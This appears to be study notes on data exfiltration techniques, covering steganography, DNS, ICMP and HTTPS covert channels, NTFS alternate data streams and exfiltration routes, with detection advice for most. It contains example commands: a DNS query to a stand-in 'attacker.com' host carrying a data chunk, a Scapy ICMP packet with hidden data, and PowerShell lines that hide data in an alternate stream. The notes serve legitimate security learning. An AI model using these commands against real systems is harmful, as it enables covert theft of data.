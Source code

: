 
- **Exfiltration**
    - **Definition**: Covertly transferring data from a target system to an attacker-controlled location
    - **Purpose**: Realize value of a breach by securing stolen information (e.g., PII, IP)

---

## Covert Channels

- **Definition**: Transfer information in ways not easily detected by standard security tools
- **Importance**: Essential for bypassing security measures during penetration tests and real attacks

### Steganography

- **Concept**: Embed secret payloads within non-secret media (images, audio, video)
- **Example Tool**: Java-based LSB steganography—converts ASCII text to binary, modifying image pixels
- **Process**:
    1. Select host file (e.g., `photo.png`)
    2. Convert secret message to binary
    3. Modify least significant bits of pixels, imperceptible to human eye
- **Countermeasures**:
    - Use data loss prevention (DLP) tools to inspect for unusual file signatures
    - Stego data bypasses signature matching by embedding inside media
- **Analogy**: Spy uses a newspaper ad; first letter of each word forms a secret message

### DNS Covert Channels

- **Technique**: Break data into chunks, encode each chunk into DNS query subdomain
- **Example Flow**:
    1. Attacker-controlled DNS server responds to queries
    2. Compromised host performs `nslookup secretchunk.exfil.attacker.com`
    3. DNS query payload captured and decoded by attacker
- **Use Case**: Appear as normal DNS traffic; minimal chance of detection by standard filtering

### ICMP Covert Channels

- **Technique**: Embed hidden data in ICMP packet payloads (Echo Request/Reply)
- **Example**:
    ```bash
    # Craft ICMP packet with Scapy
    from scapy.all import IP, ICMP, send
    pkt = IP(dst="10.0.0.5")/ICMP()/b"SECRET_DATA"
    send(pkt)
    ```
- **Rationale**: ICMP often allowed through firewalls for diagnostics, making hidden data transport easy
- **Detection**: Monitor ICMP payload sizes or frequency anomalies

### HTTPS Covert Channels

- **Technique**: Hide data within encrypted HTTPS requests/responses
- **Example**:  
    - Exfiltrate JSON payload via POST to `https://legit-site.com/login` with hidden parameters  
    - Server logs appear normal; payload extracted by attacker later
- **Rationale**: Encrypted traffic resists inspection; security tools struggle to inspect without decryption
- **Detection**: Analyze TLS session metadata for unusual request sizes or timing patterns

---

## Steganography: A Demonstration

- **Practice**: Hiding text in an image without altering appearance
- **Steps**:
    1. Choose image file (`cover.png`)
    2. Insert message via LSB tool:
        ```bash
        stego_tool hide -i cover.png -o stego.png -m secret.txt
        ```
    3. Distribute `stego.png`; attacker extracts with:
        ```bash
        stego_tool extract -i stego.png -o extracted.txt
        ```
- **Key**: No encryption; anyone with tool and method can retrieve hidden data
- **Countermeasures**: Use steganalysis tools, monitor for files with abnormal pixel patterns

---

## Alternate Data Streams (ADS)

- **Definition**: NTFS feature allowing multiple data streams in a single filename
- **Purpose**: Originally for HFS compatibility; abused to hide data without changing file size
- **Malicious Use**:
    - Hide sensitive data in `report.txt:hiddenStream`:
        ```powershell
        echo HiddenSecret > report.txt:hiddenStream
        ```
    - Transfer `report.txt`; hidden data persists in ADS
- **Retrieval**:
    ```powershell
    more < report.txt:hiddenStream
    ```
- **Detection & Prevention**:
    - Standard tools don’t show ADS; use Sysinternals **Streams** utility:
        ```powershell
        streams.exe C:\path\to\file
        ```
    - Audit for unexpected ADS on critical files; enforce strict file access controls

---

## Exfiltration Strategies

- **Virtual Drive Mounting**
    - Mount attacker-controlled network share as local drive; copy sensitive files directly
- **Email Exfiltration**
    - Attach compressed/encrypted archives to email; send to external address
- **Cross-Account Resource Usage**
    - Use compromised cloud creds to upload data to attacker-controlled S3 bucket
- **Cloud Storage**
	- Services like google drive, drop box, OneDrive for file sharing; already encrypted
- **Text storage sites (Pastebins)**
	- allow users to public/privately host text file; obfuscated/encoded for detection

